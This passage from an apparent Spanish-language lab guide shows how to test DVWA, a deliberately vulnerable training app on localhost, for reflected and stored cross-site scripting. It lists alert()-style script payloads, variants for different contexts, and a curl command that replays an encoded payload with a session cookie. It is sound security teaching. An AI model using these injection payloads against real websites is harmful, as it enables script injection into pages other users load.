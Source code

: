    Si aparece un popup, anota **URL**, **parámetro** y **contexto**.

   a) **Popup:**
  
  <img width="471" height="168" alt="imagen" src="https://github.com/user-attachments/assets/678f4072-9ef1-455d-8985-1753f005f4bf" />


   b) **URL:** http://127.0.0.1:8080/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%27xss-reflected%27%29%3C%2Fscript%3E#

   c) **Context:**

  <img width="671" height="163" alt="imagen" src="https://github.com/user-attachments/assets/66e546f8-ab5e-4075-a729-05c5276f2a77" />


2. **cURL (opcional)**: descubre el **nombre del parámetro** (DevTools → pestaña Network) y repite con el payload URL‑encodeado. Ejemplo genérico (ajusta `PARAM`):

```bash
curl -s \
  "$DVWA/vulnerabilities/xss_r/?PARAM=%3Cscript%3Ealert(1)%3C%2Fscript%3E" \
  --cookie "$COOKIE" | tee ~/Pentesting/DVWA/xss/reflected/evidence/reflected_response.html
```

<img width="686" height="149" alt="imagen" src="https://github.com/user-attachments/assets/7749c358-648f-4a6d-b18c-328645292f03" />


> Nota: con `curl` **no verás** el popup, pero puedes confirmar que tu payload vuelve sin escapar en la respuesta.

### Variaciones útiles

* `"><svg/onload=alert(1)>`
* `</script><script>alert(1)</script>` (si estás dentro de `<script>`)
* `';alert(1);//` (si la entrada cae dentro de una cadena JS)

## 5) Stored XSS (Low)

### Objetivo en DVWA

`/vulnerabilities/xss_s/`

1. En el formulario de comentarios, en **Name** o **Message** introduce:

   ```html
   <script>alert('xss-stored')</script>
   ```

<img width="678" height="377" alt="imagen" src="https://github.com/user-attachments/assets/b9f3ce51-6781-47d4-8784-6c82fbc12dbe" />

2. Envía y recarga la página (o entra con otro usuario) → el payload se ejecutará **cada vez** que se renderice el comentario almacenado.

<img width="675" height="370" alt="imagen" src="https://github.com/user-attachments/assets/486bcd5b-9266-4b4a-b42d-5dee22b88722" />

### Variaciones
